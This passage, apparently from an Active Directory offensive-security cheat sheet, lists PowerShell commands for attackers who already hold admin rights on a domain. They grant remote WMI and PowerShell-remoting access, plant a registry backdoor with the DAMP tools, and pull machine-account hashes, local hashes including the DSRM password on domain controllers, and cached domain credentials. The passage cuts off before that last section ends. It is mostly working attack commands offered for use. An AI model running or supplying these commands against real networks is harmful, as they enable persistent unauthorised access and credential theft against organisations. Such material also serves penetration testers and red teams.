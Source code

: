 > > > > > > Set-RemoteWMI -UserName <username> -ComputerName <computerNAme> -nameSpace 'root\cimv2' -Verbose
> > > > > > ```
> > > > >
> > > > > **Add permissions - Run on remote machine with specific credentials**
> > > > >
> > > > > > ```powershell
> > > > > > Set-RemoteWMI -UserName <username> -ComputerName <computerNAme> -nameSpace 'root\cimv2' -Credential Administrator -Verbose
> > > > > > ```
> > > > >
> > > > > **Remove permissions remotely**
> > > > >
> > > > > > ```powershell
> > > > > > Set-RemoteWMI -UserName <username> -ComputerName <computerNAme> -nameSpace 'root\cimv2' -Remote -Verbose
> > > > > > ```
> > > > >
> > > > > ***Execute Remote Command using PS session***
> > > > >
> > > > > ```powershell
> > > > > .. .\Set-RemotePSRemoting.ps1
> > > > > Set-RemotePSRemoting -UserNAme <username> -ComputerName <domainFQDN> -Verbose 
> > > > > ```
> > > > >
> > > > > ***Validation command***
> > > > >
> > > > > ```powershell
> > > > > Invoke-Command -ScriptBlock{whoami;} -ComputerName <DCFQDN>
> > > > > ```
> > > >
> > > > ***Remote Registry modification***
> > > >
> > > > > USE ***DAMP*** with admin privs on remote machine 
> > > > >
> > > > > ```powershell
> > > > > . .\Add-RemoteBackoor.ps1
> > > > > 
> > > > > Add-RemoteRegBackdoor -ComputerName <computerNAme> -Trustee <username> -Verbose 
> > > > > ```
> > > > >
> > > > > ***Abuse***
> > > > >
> > > > > > :information_desk_person: replace $IV by $initIV 
> > > > > >
> > > > > > ```powershell
> > > > > > . .\RemoteHAshRetrival.ps1 
> > > > > > ```
> > > > > >
> > > > > > **Retrieve machine account hash**
> > > > > >
> > > > > > ```powershell
> > > > > > Get-RemoteMAchineAccountHash -ComputerName <computerName> -Verbose
> > > > > > ```
> > > > > >
> > > > > > ***Retrieve local account hash*** --DSRM password in case DomainControler ComputerName
> > > > > >
> > > > > > ```powershell
> > > > > > Get-RemoteLocalAccountHash -ComputerName <computerNAme> -Verbose
> > > > > > ```
> > > > > >
> > > > > > ***Retrieve domain cached credentials***
> > > > > >
> > > > > > ```powershell